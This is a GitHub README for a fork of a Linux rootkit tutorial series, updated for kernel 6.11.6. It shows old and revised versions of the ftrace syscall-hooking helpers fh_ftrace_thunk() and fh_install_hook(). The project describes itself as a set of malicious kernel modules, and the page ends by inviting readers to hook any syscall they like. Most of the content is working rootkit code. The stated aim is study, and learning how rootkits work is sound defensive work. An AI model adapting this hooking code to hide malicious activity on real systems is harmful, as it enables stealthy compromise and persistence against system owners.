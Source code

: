 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes for fh_ftrace_thunk()

  - This is the old function and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

# Changes to fh_install_hook()

 - This is the old snippet below of the function:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION_SAFE
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```
  - This is the revised snippet of code for the function below:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION // revised section
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```

# Extra

  - Feel free to add to this, the whole point of this is to help people thats scraping the internet for malicious code examples to examine.
  
  - Experiment with this repo and grasp the concept of whats going on and venture into hooking your own syscall of choice and having fun with that syscall. Make things work with that hooked syscall and big FYI if you dont already know this USE THE INTERNET TO YOUR ADVANTAGE, meet others.

---

